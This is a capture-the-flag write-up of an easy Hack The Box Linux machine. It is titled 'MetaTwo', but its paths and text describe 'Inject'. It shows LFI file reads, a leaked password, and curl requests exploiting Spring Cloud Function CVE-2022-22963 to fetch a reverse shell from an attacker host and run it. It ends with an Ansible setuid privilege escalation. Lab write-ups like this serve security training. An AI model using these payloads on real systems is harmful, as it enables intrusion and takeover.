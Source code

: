 ```yaml
---
title: MetaTwo
categories: [HTB]
tags: complete active easy linux
img_path: /assets/img/HTB/metatwo/
---
```


![metatwo.card](MetaTwo.png)

> MetaTwo is an easy Linux machine from Hack the Box. Here is the tldr;
{: .prompt-tip }

## Enumeration

### nmap

```
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject]
└─$ sudo nmap 10.129.35.51                              
[sudo] password for dimondsec: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-11 21:36 MST
Nmap scan report for 10.129.35.51
Host is up (0.66s latency).
Not shown: 933 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds
```

We've only got two ports open, `22` and `8080`. We likely won't find anything with port 22 so let's head over to 8080 in a broswer.

We've got a website, many of the links don't do anything. However, it looks like there may be a site under construction (maybe a subdomain??) We also have an upload page that will only accept images. If we upload an image, it looks like there is an LFI vulnerability in the URL.

```
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```
We are able to see files and the directory in burp by just going to the URL. In `/home/frank` we find a folder names `/.m2` that has a `settings.xml` file that contains credentials.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```
After some more searching we find that it is running a vulnerable version of `Spring Cloud` (3.2.2). There is an exploit [here](https://github.com/me2nuk/CVE-2022-22963) All we have to do is run the curl request found of the site with the Inject IP address and port.

```shell
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject]
└─$ curl -X POST  http://10.129.35.51:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v 
docker exec -it --user=root vuln ls /tmp
```
This creates a new file at `/tmp/pwned`. We check using the LFI discovered earlier and it is there! Let's now create a basic reverse shell file on our Kali box, use `wget` in our exploit above to download the shell to `/tmp` on Inject, set up a netcat listener, then use our exploit to run the reverse shell with bash.

```shell
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject/www]
└─$ curl -X POST  http://10.129.35.51:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget http://10.10.14.66/revshell.sh -O /tmp/revshell.sh")' --data-raw 'data' -v
docker exec -it --user=root vuln ls /tmp
```
```shell
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject/www]
└─$ curl -X POST  http://10.129.35.51:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -i /tmp/revshell.sh")' --data-raw 'data' -v
docker exec -it --user=root vuln ls /tmp
```
Now we have a shell with `frank`! From our enumeration earlier, we know that `user.txt` is owned by `phil`, and we already have his password from a file we found a while ago. So `su` to phil and we have our flag.

I uploaded `pspy` and noticed that there is something being run called Ansible Playbook. It is running and using any `.py` file in the directory `/opt/automations/tasks` directory. After some googling, it looks like we can create a new `.yml` file in that directory with the following to set UID to `/bin/bash` and give us root.

```yml
- name: "whatever"
  hosts: localhost
  connection: local
  tasks:
    - name: "whatever"
      shell: "chmod +s /bin/bash"
      register: "output"
```
Once it's created we just have to wait a couple of minutes, run `bash -p` and boom, we're root.






